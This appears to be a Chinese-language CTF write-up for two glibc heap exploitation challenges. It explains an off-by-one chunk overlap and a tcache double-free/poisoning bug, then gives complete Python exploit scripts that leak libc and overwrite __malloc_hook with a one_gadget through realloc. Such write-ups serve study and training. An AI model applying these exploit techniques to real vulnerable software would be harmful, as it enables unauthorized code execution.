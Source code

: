 ### simpleHeap

编辑时存在 off by one，可以修改下一个 chunk 的大小后令其进入 unsorted bin 泄露 libc。然后修改 `malloc_hook` 为 `one_gadget`，注意需要通过 `realloc` 调整 `rsp` 来满足 `one_gadget` 条件。

```python
add(0x18) # 0
add(0x68) # 1
add(0x68) # 2
add(0x18) # 3

edit(0,'a'*0x18+'\xe1')
free(1)
add(0x68) # 1
show(2)
base = uu64(r(6))-88-libc.sym['__malloc_hook']-0x10
leak('base',base)
malloc_hook = base+libc.sym['__malloc_hook']

add(0x60) # 4 <-> 2
free(3)
free(2)
edit(4,p64(malloc_hook-0x23)+'\n')
add(0x60)
add(0x60,flat('a'*11,base+0x4526a,base+libc.sym['realloc']+13))
sla(':',str(_add))
sla('?',str(0x18))
```

### easyTHeap

`free` 时指针未置 NULL。先利用 tcache double free 泄露堆地址，随后 tcache 投毒拿到 `tcache_perthread_struct`，修改 `count` 令 tcache 全被填满，再次 `free` 时就会进入 unsorted bin 泄露 libc。接下来依然是覆盖 `malloc_hook` 为 `one_gadget` 以及通过 `realloc` 调整 `rsp`，不过由于环境是 2.27，`one_gadget`、偏移量等等都会会有所不同，unsorted bin 泄露的地址也变成了 `main_arena+96` 而非 `+88`。

```python
add(0x80) # 0
add(0x80) # 1
free(0)
free(0)
show(0)
heap = uu64(r(6))-0x260
leak('heap',heap)

tps = heap+0x10
add(0x80) # 2 <-> 0
edit(2,p64(tps))

add(0x80) # 3 <-> 1
add(0x80) # 4 <-> tps
edit(4,'\x07'*8+'\x00'*0x70+p64(tps+0x78))
free(0)
show(0)
base = uu64(r(6))-0x60-libc.sym['__malloc_hook']-0x10
leak('base',base)
one = base+0x10a38c
malloc_hook = base+libc.sym['__malloc_hook']

edit(4,'\x07'*8+'\x00'*0x70+p64(malloc_hook-0x8))
add(0x80) # 5
edit(5,flat(one,base+libc.sym['realloc']+4))
sla(':',str(_add))
sla('?',str(0x10))
```
